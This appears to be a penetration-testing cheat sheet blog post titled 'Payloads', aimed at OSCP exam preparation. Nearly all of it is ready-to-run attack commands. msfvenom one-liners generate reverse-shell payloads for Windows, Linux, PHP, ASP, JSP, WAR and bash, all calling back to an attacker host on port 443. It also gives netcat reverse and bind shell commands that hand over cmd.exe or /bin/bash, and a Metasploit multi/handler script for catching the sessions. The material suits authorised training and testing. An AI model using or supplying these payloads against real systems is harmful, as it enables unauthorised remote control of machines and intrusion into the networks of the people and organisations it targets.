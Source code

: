 ```yaml
---
title: Payloads
author: linatl
date: "2021-03-06 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Webshells
```
Kali ready-to-go webshells
/usr/share/webshells/
/usr/share/seclists/Web-Shells/
```

###### List payload options
```
> msfvenom -l payloads | grep php
> msfvenom -l archs
> msfvenom -l formats
```

###### Windows payloads for in a python script
```
Unstaged payload
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -b "\x00" -f python -v shellcode -a x86 --platform windows > payload.txt

Staged payload
> msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.1 LPORT=443 -b "\x00" -f python -v shellcode -a x86 --platform windows > payload.txt
```

###### PHP reverse shell
```
> msfvenom -p php/reverse_php LHOST=192.168.1.1 LPORT=443 -f raw > shell.php

Then we need to add the <?php at the first line of the file so that it will execute as a PHP webpage.
> cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste > shell.php
```

###### .elf reverse shell
```
x86
> msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > shell.elf
x64
> msfvenom -p linux/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > shell.elf
```

###### .sh reverse shell
```
> msfvenom -p cmd/unix/reverse_bash LHOST=192.168.1.1 LPORT=443 -f raw > shell.sh
```

###### .exe reverse shell
```
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f exe > shell.exe
```

###### Some more reverse shells
```
.asp
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f asp > shell.asp
.jsp
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f raw > shell.jsp
.war
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f war > shell.war
```

###### Netcat reverse shell
```
Set up a listener
 > nc -nvlp 443

Connect to the listener (Windows)
 > nc -nv 192.168.1.1 443 -e cmd.exe
Connect to the listener (Linux)
 > nc -nv 192.168.1.1 443 -e /bin/bash
```

###### Netcat bind shell
```
Set up a listener (bind shell) (Windows target)
 > nc -nvlp 10.10.10.10 443 -e cmd.exe
Set up a listener (bind shell) (Linux target)
 > nc -nvlp 10.10.10.10 443 -e /bin/bash

Connect to the listener
> nc -nv 192.168.1.1 443
```

###### Metasploit Multi Handler (.rc script)
```
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set LHOST 192.168.1.1
set LPORT 443
set ExitOnSession false
exploit -j -z
```
